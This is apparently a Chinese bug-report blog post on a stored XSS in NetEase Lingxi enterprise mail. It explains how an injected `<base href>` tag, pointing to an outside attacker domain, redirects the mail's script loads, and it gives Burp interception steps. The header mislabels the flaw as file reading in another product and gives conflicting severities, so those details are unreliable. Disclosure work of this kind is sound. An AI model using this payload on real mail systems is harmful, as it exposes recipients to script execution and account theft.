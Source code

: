 ```yaml
---
layout: post
title:  "中危：网易灵犀企业邮箱存在存储型XSS漏洞"
date:   2024-03-27 10:26:18 +0800
categories: xss
---
```


## Name

> 网易云课堂ai设计工坊存在文件读取漏洞

## Weakness
> xss

## Severity
> High, 8.5

## Detail

网易灵犀企业邮箱对大部分xss进行了防御性过滤，但是漏掉了`<base>`标签，该标签可以设定网页中所有的路径的base索引，例如script中的src的base路径，当src指向相对路径时，拼接上base路径的href域名才是script真正的下载链接。攻击者可以嵌入base标签，将邮件中的script指向任意网站的脚本，从而触发xss执行。

POC视频：

- 链接：https://pan.baidu.com/s/11lUQvwepL7cq6_UYkE1PQw 

- 提取码：1314




## Steps

1. 首先注册两个灵犀企业邮箱， https://lingxi.office.163.com/ 。由于注册需要手机号验证，所以这里就不提供账号密码。笔者注册了两个账号供测试。账号A： tiankong@tiankong.ntesmail.com，和账号B: tiankong3@tiankong.ntesmail.com。

2. 开启burp，通过账号A给账号B发送邮件，并且拦截发送邮件的请求。

    ![lingxi1](/assets/lingxi/lingxi1.png)

    burp拦截的发送请求：

    ![lingxi2](/assets/lingxi/lingxi2.png)

    可以看到请求体包含邮件的html格式文档，其中开头是head标签：

    ![lingxi3](/assets/lingxi/lingxi3.png)


3. 于是笔者想到head标签可以注入base来改变该文档所有css和script的目标，达到重定向的目的。笔者购买了一个独立域名并且配置了nginx网站： https://sunriseflowers2024.online/. 构造base标签payload： `<base href=\"https://sunriseflowers2024.online/\">`


4. 实施邮件体xss嵌入，首先开启burp的拦截模式：

    ![lingxi4](/assets/lingxi/lingxi4.png)

    拦截到post请求： https://lingxi.office.163.com/js6/s?_host=lingxi.office.163.com&func=mbox%3Acompose&sid=xxx ，对邮件html进行修改，嵌入base 标签xss payload：

    ![lingxi5](/assets/lingxi/lingxi5.png)

    注入之后点击forward，邮件发送成功

5. 登录受害者灵犀企业邮箱，打开邮件，可以看到xss弹框出现。

    ![lingxi6](/assets/lingxi/lingxi6.png)

    ![lingxi7](/assets/lingxi/lingxi7.png)

7. 注入点分析，可以看到base标签成功注入：

    ![lingxi8](/assets/lingxi/lingxi8.png)

## Impacts

1. 直接发送邮件给受害者，受害者打开邮件后即可完成xss攻击